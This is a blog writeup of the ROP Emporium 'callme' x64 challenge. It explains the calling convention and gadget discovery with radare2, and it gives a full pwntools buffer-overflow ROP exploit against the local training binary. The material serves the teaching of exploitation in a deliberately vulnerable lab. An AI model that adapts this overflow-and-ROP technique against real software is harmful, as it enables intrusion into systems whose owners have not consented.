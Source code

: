 ```yaml
---
layout: post
title:  "ROP Emporium callme Writeup (x64)"
date:   2024-06-02 00:00:00 -0400
categories: rop-emporium callme
tags: rop-emporium callme x64 writeup buffer-overflow rop
---
```

## Introduction
[ROP Emporium](https://ropemporium.com/index.html){:target="_blank"}{:rel="noopener noreferrer"}
provides a series of challenges to learn and practice
Return Oriented Programming (ROP). This is the
[third challenge](https://ropemporium.com/challenge/callme.html){:target="_blank"}{:rel="noopener noreferrer"}
of eight.

> This is what a hint will look like!
{: .prompt-tip }

### Goal
According to the
[challenge page](https://ropemporium.com/challenge/callme.html){:target="_blank"}{:rel="noopener noreferrer"}
our goal is to call the functions `callme_one()`,
`callme_two()`, and `callme_three()` in that order with
the arguments `0xdeadbeefdeadbeef`, 
`0xcafebabecafebabe`, and `0xd00df00dd00df00d`.

We should essentially be running
```c
callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d);
callme_two(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d);
callme_three(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d);
```

### x64 Calling Convention
We know from the first challenge we need to set the
instruction pointer to a function address in order to
call that function. But how do we pass arguments to
those functions?

In `x64` arguments are passed through specific registers.
The first three arguments correspond to the `rdi`, `rsi`,
and `rdx` registers respectively. 
[This x64 cheat sheet](https://ropemporium.com/challenge/split.html){:target="_blank"}{:rel="noopener noreferrer"}
can help if you want to learn more about `x64`.

## Exploit Crafting
The offset for `x64` challenges will be `40 bytes`. If
you want to know how to get this value see the
[ret2win writeup]({% post_url 2024-05-31-rop-emporium-ret2win-x64 %}){:target="_blank"}{:rel="noopener noreferrer"}

### Function Address
> What are the plt addresses of the functions?
{: .prompt-tip }

Using `radare2` we can analyze a binary by
running `aaa`. To list functions with their
addresses we can run `afl`
![func-addr](/images/callme/x64-addr.png)

The function addresses we need are
```
callme_one: 0x00400720
callme_two: 0x00400740
callme_three: 0x004006f0
```

### Adding Arguments
> Is there a gadget which sets the argument registers?
{: .prompt-tip }
Let's take a look at `usefulFunction` in `radare2`
```
s sym.usefulFunction
V
p
```

![useful-asm](/images/callme/x64-useful-asm.png)

There's a helpful section called `usefulGadgets` with,
who would've thought, a useful gadget! It sets the 
first three `x64` argument registers from the stack,
which we already control! The address of this
gadget is `0x0040093c`

## Exploit
Now we have everything we need to build the exploit
```python
#!/bin/python3
from pwn import *

# useful addresses
call1_addr = 0x00400720
call2_addr = 0x00400740
call3_addr = 0x004006f0
pop_regs_addr = 0x0040093c

# put args into corresponding registers
def set_args(args):
    payload = p64(pop_regs_addr)
    for a in args:
        payload += p64(a)
    return payload

# create payload
payload = b'A' * 40

# callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)
args = [0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d]
payload += set_args(args)
payload += p64(call1_addr)

# callme_two
payload += set_args(args)
payload += p64(call2_addr)

# callme_three
payload += set_args(args)
payload += p64(call3_addr)

# send payload + receive flag
io = process('./callme')
io.sendline(payload)
io.recvuntil(b'callme_two() called correctly\n')
flag = io.recvline()
log.success(flag)
```
![flag](/images/callme/x64-flag.png)

## Conclusion
This challenge reinforces the the concept of passing
multiple arguments in `x64`, as well as finding
and chaining gadgets together.
